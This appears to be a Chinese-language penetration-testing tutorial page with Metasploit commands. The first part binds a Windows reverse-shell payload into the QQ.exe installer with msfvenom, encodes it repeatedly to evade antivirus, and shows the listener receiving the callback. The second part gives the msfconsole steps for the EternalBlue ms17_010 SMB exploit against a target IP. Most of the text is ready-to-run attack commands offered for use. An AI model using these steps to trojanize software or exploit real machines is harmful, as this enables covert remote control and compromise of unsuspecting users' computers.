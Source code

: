 ### msf绑定软件做木马

msf也可以绑定正常软件运行，在用户看来软件正常运行，但是这个软件后台同时偷偷启动木马程序，就拿一个qq软件做例子

![木马模版](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cttfxjplj20ma0gpgoa.jpg)

将QQ.exe用作绑定木马

查看编码类型

```
msfvenom -l encoders
```

如图，有很多类型编码，我们选择x86/shikata_ga_nai 编码

![查看编码类型](https://img-blog.csdnimg.cn/20191022094918496.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hhcWlhbmc1NTU=,size_16,color_FFFFFF,t_70)

#### 捆绑木马

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.110 LPORT=8080 -e x86/shikata_ga_nai -x /root/lenkee/share/QQ.exe -i 5 -f exe -o /root/lenkee/share/QQ1.exe
```

其中-i 5是进行5次编码，其目的是为了面杀作用，但是这样作用已经没用了，照样被杀。生成了QQ2.exe文件

#### 木马上线

##### 启动监听

![启动监听](https://img-blog.csdnimg.cn/20191022094937676.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hhcWlhbmc1NTU=,size_16,color_FFFFFF,t_70)

exploit回车开始监听
将QQ2.exe文件拷贝回被攻击的机器，点击启动

![启动绑定木马软件](https://img-blog.csdnimg.cn/20191022095000189.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hhcWlhbmc1NTU=,size_16,color_FFFFFF,t_70)

kali监听显示上线，但是在windows上的qq软件点击后却没有启动，不知道什么情况，有空研究一下
查看windows端口，发现8080后门端口被打开

![端口查看](https://img-blog.csdnimg.cn/20191022095026960.png)

## 2、ms17_010

```
 #进入msf
msfconsole

#数据库搜索ms17-010
search ms17-010

#进入漏洞
use windows/smb/ms17_010_eternalblue

#设置被攻击者的ip
set rhosts 192.168.5.59

#运行
run

#解决乱码
chcp 65001
```
